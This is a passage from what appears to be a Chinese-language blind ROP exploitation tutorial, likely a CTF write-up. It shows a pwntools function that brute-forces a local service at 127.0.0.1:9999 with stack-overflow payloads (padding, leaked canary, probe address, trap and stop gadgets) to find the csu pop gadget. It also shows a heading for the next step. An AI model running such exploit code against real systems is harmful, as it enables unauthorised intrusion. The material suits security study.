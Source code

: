 

#### 寻找弹出6参数的payload

```python
def find_BROP_gadgets(buf_flag:int,canary_flag:bytes,stop_gadgets_flag:bytes,Trap_gadgets_flag:bytes):

    BROP_gadgets_flag = 0x0
    probe = 0x400000

    while BROP_gadgets_flag == 0:

        try:

            p = remote('127.0.0.1',9999)
            p.recvuntil(b"You Name?:")
			
            #覆盖到返回地址
            payload =  b"A" * buf_flag + canary_flag + p64(0)
            #覆盖返回地址为probe
            payload += p64(probe)
            #6个trap
            payload += Trap_gadgets_flag * 0x6
            #stop
            payload += stop_gadgets_flag
            #填充n个trap
            payload += Trap_gadgets_flag * 0x10
            p.send(payload)
			
            #超时返回空字符
            Connection_flag = p.recv(timeout = 1)
            p.close()

			#检测是否为空字符
            #检测probe是否不为stop gadgets
            #检测probe是否满足csu函数的两个条件
            if not Connection_flag and check_BROP_gadgets_stop(buf,canary,stop_gadgets,Trap_gadgets,probe) and check_BROP_gadgets_csu(buf,canary,stop_gadgets,Trap_gadgets,probe):
                BROP_gadgets_flag = probe
            else:
                probe += 1
            

        except:
            p.close()
            probe += 1

    return BROP_gadgets_flag
```



#### 检测probe是否不为stop gadgets
